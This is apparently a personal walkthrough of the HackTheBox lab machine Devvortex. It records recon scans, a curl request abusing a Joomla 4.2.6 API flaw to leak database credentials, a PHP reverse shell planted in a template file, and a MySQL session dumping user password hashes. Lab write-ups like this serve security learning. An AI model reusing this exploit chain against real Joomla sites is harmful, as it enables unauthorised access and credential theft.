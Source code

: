 # Devvortex

Linux HackTheBox machine

### Recon

nmap scan:

`nmap -p- -T5 10.10.11.242 -v` (shows port 22 and 80 open)
`nmap -p 22,80 -A 10.10.11.242 -v` (get detailed info about open ports)

![image.png](image.png)

There is form on the website, doesn’t seem to work, the request doesn’t send any information inputted by user. I tried few basic XSS and SSTI payloads but to no avail.

![image.png](image%201.png)

![image.png](image%202.png)

Used ffuf to search for virtual interfaces, **dev.devvortex.htb** stood out

![image.png](image%203.png)

So I added it to /etc/hosts.

![image.png](image%204.png)

Website is running as expected

![image.png](image%205.png)

I ran gobuster to check for subdomains: `gobuster dir -u [http://dev.devvortex.htb](http://dev.devvortex.htb/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`  

on **/administrator** is running J**oomla**

On [stackoverflow](https://stackoverflow.com/questions/45359730/how-to-detect-joomla-website) I found that you can view the Joomla version in this file [http://dev.devvortex.htb/administrator/manifests/files/joomla.xml](http://dev.devvortex.htb/administrator/manifests/files/joomla.xml)

![image.png](image%206.png)

File shows that the **Joomla version is 4.2.6** and there is **sql present**

I tried several logins like admin:admin but none of them got me in, so I searched for Joomla vulnerabilities and I found [this](https://vulncheck.com/blog/joomla-for-rce).

I used the payload and it worked!

```bash
└─$ curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
* Host dev.devvortex.htb:80 was resolved.                                                                                                                                      
* IPv6: (none)                                                                                                                                                                 
* IPv4: 10.10.11.242                                                                                                                                                           
*   Trying 10.10.11.242:80...                                                                                                                                                  
* Connected to dev.devvortex.htb (10.10.11.242) port 80                                                                                                                        
> GET /api/index.php/v1/config/application?public=true HTTP/1.1                                                                                                                
> Host: dev.devvortex.htb                                                                                                                                                      
> User-Agent: curl/8.8.0                                                                                                                                                       
> Accept: */*                                                                                                                                                                  
>                                                                                                                                                                              
* Request completely sent off                                                                                                                                                  
< HTTP/1.1 200 OK                                                                                                                                                              
< Server: nginx/1.18.0 (Ubuntu)                                                                                                                                                
< Date: Mon, 11 Nov 2024 10:20:34 GMT                                                                                                                                          
< Content-Type: application/vnd.api+json; charset=utf-8                                                                                                                        
< Transfer-Encoding: chunked                                                                                                                                                   
< Connection: keep-alive                                                                                                                                                       
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Mon, 11 Nov 2024 10:20:34 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< 
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"**lewis**","id":224}},{"type":"application","id":"224","attributes":{"password":"**P4ntherg0t1n5r3c0n##**","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

The username and password is hidden in the code: **lewis:P4ntherg0t1n5r3c0n##**

I logged into Joomla and I’m admin! I tried to ssh into the machine but the credentials are not the same.

![image.png](image%207.png)

I exploited Joomla few times already so I knew what to do. I went into templates folder (System→ Site Templates→Cassiopeia Details and Files) and pasted [php code for reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) into error.php, I setted up a listener and went to [http://dev.devvortex.htb/templates/cassiopeia/error.php](http://dev.devvortex.htb/templates/cassiopeia/error.php) and I received www-data shell

![image.png](image%208.png)

Logged into mysql with lewis credentials and found table sd4fd_users with password hashes

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
mysql> select name,username,password from sd4fg_users;
+------------+----------+--------------------------------------------------------------+
| name       | username | password                                                     |
+------------+----------+--------------------------------------------------------------+
| lewis      | lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+--------------------------------------------------------------+

```
